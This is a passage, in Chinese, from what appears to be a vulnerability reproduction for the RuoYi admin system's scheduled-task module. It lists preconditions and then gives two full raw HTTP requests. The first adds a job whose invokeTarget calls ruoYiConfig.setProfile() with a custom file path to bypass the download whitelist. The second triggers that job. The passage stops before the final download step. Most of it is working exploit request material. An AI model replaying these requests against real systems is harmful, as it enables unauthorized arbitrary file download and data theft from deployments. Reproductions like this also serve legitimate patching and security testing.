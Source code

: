1. 攻击者需获取管理员 Cookie（如 
```
JSESSIONID
```

  
）或存在其他权限绕过漏洞。  
  
1. 若后台接口未授权即可访问，则漏洞危害升级为“未授权任意文件下载”。  
  
1. **系统配置**  
：  
  
1. 目标系统启用了定时任务模块（默认开启）。  
  
## 漏洞复现  
#### 添加任务绕过白名单（自定义下载文件路径）  

```
POST /monitor/job/add HTTP/1.1
Host: 10.40.107.67
Cookie: _tea_utm_cache_10000007=undefined; java-chains-token-key=admin_token; JSESSIONID=7c625b5d-cd39-49fd-87db-bbb64c596c1b
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-type: application/x-www-form-urlencoded
Content-Length: 214
Connection: close

createBy=admin&jobId=161&jobName=test111&jobGroup=DEFAULT&invokeTarget=ruoYiConfig.setProfile('/Users/apple/Desktop/Locks/javafx.txt')&cronExpression=0%2F10+*+*+*+*+%3F&misfirePolicy=1&concurrent=1&status=0&remark=

```

- 通过调用 
```
ruoYiConfig.setProfile()
```

  
 方法，将系统配置文件路径动态修改为攻击者指定的路径（如 
```
/Users/apple/Desktop/Locks/javafx.txt
```

  
）。  
  
- 此操作绕过了下载功能原本的“固定目录白名单”限制，将下载路径指向自定义位置。  
  
#### 执行定时任务（触发配置修改）  

```
POST /monitor/job/run HTTP/1.1
Cookie: _tea_utm_cache_10000007=undefined; java-chains-token-key=admin_token; JSESSIONID=7c625b5d-cd39-49fd-87db-bbb64c596c1b
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Host: 10.40.107.67
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-type: application/x-www-form-urlencoded
Content-Length: 9
Connection: close

jobId=117

```
